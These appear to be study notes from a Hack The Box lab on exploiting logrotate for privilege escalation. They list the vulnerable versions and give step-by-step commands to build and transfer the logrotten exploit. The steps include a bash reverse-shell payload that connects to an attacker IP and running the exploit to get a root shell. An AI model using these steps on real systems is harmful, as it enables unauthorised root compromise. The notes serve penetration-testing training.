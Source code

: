 
`Logrotate` has many features for managing these log files. These include the specification of:

- the `size` of the log file,
- its `age`,
- and the `action` to be taken when one of these factors is reached.

```
man logrotate
logrotate --help
```

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate.status` or use the `-f`/`--force` option:

```
cat /var/lib/logrotate.status  
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.

```
ls /etc/logrotate.d/
```

```
cat /etc/logrotate.d/dpkg
```

To exploit `logrotate`, we need some requirements that we have to fulfill.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

```shell-session
git clone https://github.com/whotwagner/logrotten.git
```
Compile the code
```shell-session
cd logrotten
gcc logrotten.c -o logrotten
```
 
 to compile on remote system:
```bash
wget --recursive --no-parent http://10.10.14.8:8000/logrotten
```

```shell-session
echo 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1' > payload
```

determine which option `logrotate` uses in `logrotate.conf`.

```shell-session
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```
result:
`create`

start a listener,  run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.

```shell-session
./logrotten -p ./payload /tmp/tmp.log
```

**NOTE:**
The log for the HTB Logrotate modules is not in the default location... 
